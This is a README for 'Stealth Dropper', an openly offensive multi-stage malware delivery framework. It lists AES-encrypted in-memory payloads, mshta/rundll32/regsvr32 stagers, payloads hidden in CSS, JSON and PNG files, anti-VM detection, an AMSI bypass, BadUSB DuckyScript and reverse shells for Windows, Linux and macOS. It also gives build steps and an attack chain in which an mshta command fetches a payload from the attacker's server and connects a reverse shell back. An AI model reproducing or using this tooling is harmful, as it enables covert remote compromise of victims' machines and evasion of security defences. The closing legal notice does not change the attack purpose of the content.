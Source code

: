 # Stealth Dropper (2025 Edition)

**Multi-stage, multi-OS, in-memory malware delivery framework**

## ✅ Features
- AES-256 encrypted payload delivery
- Full in-memory execution (no file drops)
- Multi-OS support: Windows / Linux / macOS
- Web-based stagers via mshta / rundll32 / regsvr32
- Payload delivery via CSS, JSON, PNG (LSB stego)
- Anti-VM / sandbox detection module
- DuckyScript generation for WiFi BadUSB

---

## 📁 Project Structure
```
stealth-dropper/
├── run.sh                  # main automation script
├── config/                 # config/settings.json
├── core/                   # anti_vm.ps1
├── output/                 # generated stagers + logs
├── payloads/               # raw stage 2 payloads by OS
├── stagers/                # template stage 1 payloads for delivery
├── tools/                  # encryption & embedding tools
└── web/                    # hosted delivery files
```

---

## 🚀 How to Use

### 1. Set encryption key in `.env`
```
ENCRYPTION_KEY=Zxcvbnm1234567890Zxcvbnm12345678
```

### 2. Run the builder
```bash
chmod +x run.sh
./run.sh
```

You'll be prompted to select:
- IP and PORTS
- Target OS
- Payload type (e.g. shell_reverse)
- Delivery method (css / manifest / png)

Result:
- Stage 2 is AES-encrypted
- Stage 1 (PowerShell / HTA / SCT) is generated
- Payload is embedded in CSS/JSON/PNG
- Server starts at `http://<your-ip>:<port>`
- DuckyScript saved in `output/ducky_payload.txt`

---

## 🧪 Example Attack Chain (Windows)
```
1. Deliver WiFi Ducky:
   > GUI r
   > mshta http://<your-ip>:8000/decrypt.html

2. HTML decrypts AES payload from CSS/JSON/PNG
3. Executes PowerShell stage 2 in memory
4. Reverse shell connects back to you
```

---

## 📦 Supported Payloads
- `windows/shell_reverse` → raw.ps1 TCP shell
- `windows/lolbins/js_payload.html` → mshta/jscript shell
- `linux/bash_reverse` → raw.sh reverse TCP
- `mac/osascript` → raw.osascript reverse shell

---

## 🔐 Stealth Considerations
- No IEX / no downloadstring / no Invoke-Obfuscation
- AMSI bypass injected in stage 1
- Anti-VM checks built-in (RAM, hostname, vendor)
- No file drops unless explicitly instructed

---

## 🛠 Requirements
- Python 3.8+
- pip install -r requirements.txt
- Dependencies: `python-dotenv`, `pycryptodome`, `Pillow`

---

## ⚠️ Legal Notice
> This project is for educational and authorized testing use only.  
> You are responsible for your actions. Do not deploy without explicit permission.
